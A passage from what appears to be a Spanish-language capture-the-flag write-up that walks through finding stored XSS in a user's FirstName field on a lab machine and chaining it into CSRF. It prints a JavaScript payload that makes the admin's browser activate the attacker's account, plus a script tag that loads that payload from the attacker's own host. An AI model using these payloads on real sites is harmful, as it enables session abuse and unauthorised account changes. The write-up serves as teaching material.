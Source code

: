 Como podemos ver, el servidor tiene el puerto 80 con el servicio *http*. Es más, existe una ruta llamada ```/admin/admin.php``` que tiene una cookie de *PHPSESSION* que tiene la flag http-only deshabilitada.

Esta flag puede ser crucial si se produce un [XSS (Cross Site Scripting)](https://owasp.org/www-community/attacks/xss/), ya que nos puede permitir hacer un [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking).


<a id="reconocimiento-web"></a>
### Reconocimiento web

Podemos acceder a la página ```/admin/admin.php``` sin logearnos y podemos ver una serie de usuarios.

<a id="explotacion"></a>

## Fase de explotación

Entre estos usuarios podemos ver al nuestro: slamotte. Sin embargo, si intentamos logearnos nos dice que no podemos entrar en esta porque la cuenta está inactiva.

Por lo tanto intentamos crear una nueva, pero por defecto aparece inactiva.

Como el login nos permite escribir un input(el FirstName y el LastName) que luego se refleja en ```/admin/admin.php```, intentamos probar un **XSS**. Creamos un usuario con el FirstName: ```<marquee>Hacked</marquee>```. Cuando vamos a *admin.php* podemos ver que se mueve el texto. Por lo tanto, estamos ante un **XSS**.

Si le damos a activar una cuenta, nos redirigirá a una página diciendo que no tenemos privilegios para hacerlo. Esta petición se hace por *GET* y podemos ver en la URL que se tramita de la siguiente manera: 
```
http://<ip de la maquina>/admin/admin.php?id=11&status=active
```
El campo id es el id del usuario al que queremos activar y el status es al estado al que queremos cambiarlo.

<a id="slamotte"></a>
### Nos logeamos como en slamotte

Si logramos que el administrador realice esta petición activará la cuenta. Esto lo podremos conseguir derivando el **XSS** anterior en un [CSRF(Cross Site Request Forgery)](https://owasp.org/www-community/attacks/csrf).

La idea es que vamos a hacer que el administrador cargue un código malicioso *js* gracias al **XSS**. Este script va a realizar una petición XML a la URL de activarnos la cuenta.

pwned.js:

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://<ip de la máquina>/admin/admin.php?id=11&status=active');
request.send();
```

Ahora creamos un usuario con el siguiente FirstName:
```html
<script src="http://<mi ip>/pwned.js"></script>
```
